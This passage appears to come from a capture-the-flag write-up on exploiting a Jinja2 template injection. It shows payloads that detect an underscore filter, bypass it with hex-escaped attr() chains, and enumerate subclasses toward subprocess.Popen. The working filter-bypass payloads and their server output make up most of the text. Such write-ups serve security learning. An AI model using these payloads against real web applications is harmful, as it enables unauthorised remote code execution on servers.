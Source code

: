 Then we realized that payloads were correct, but there must be some filtering undergoing in the server, the following payload confirmed the idea:

```python
# Payload 5 
'__name__'
'''
name
Connection closed by foreign host.
'''

# Payload 6
"name"
'''

Connection closed by foreign host.
'''

# Payload 7
"__name__"
'''

Connection closed by foreign host.
'''
```

So the main filter is the underscore (\_) as far as we know. Therefore, we used some [bypasses](https://medium.com/@nyomanpradipta120/jinja2-ssti-filter-bypasses-a8d3eb7b000f) and we can see that it was successful. In this case, we used class and MRO (Method Resolution Order) to list the classes being inherited from:

```python
# Payload 8
''|attr('application')|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fmro\x5f\x5f')
'''
(<class 'jinja2.runtime.Undefined'>, <class 'object'>)
Connection closed by foreign host.
'''
```

As paylaod worked, it was time to list methods from the object class and try to spot a method that might allow us to execute commands such as **os**, **sys** or **subprocess**. In this case, we can use the base from class to list the subclasses imported by this item.

```python
# Payload 9
()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()

'''
[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, ... 
<class 'selectors.BaseSelector'>, <class 'subprocess.CompletedProcess'>, <class 'subprocess.Popen'>, ...
<class 're.Pattern'>, <class 'jinja2.loaders.BaseLoader'>, <class '__future__._Feature'>]
'''
```

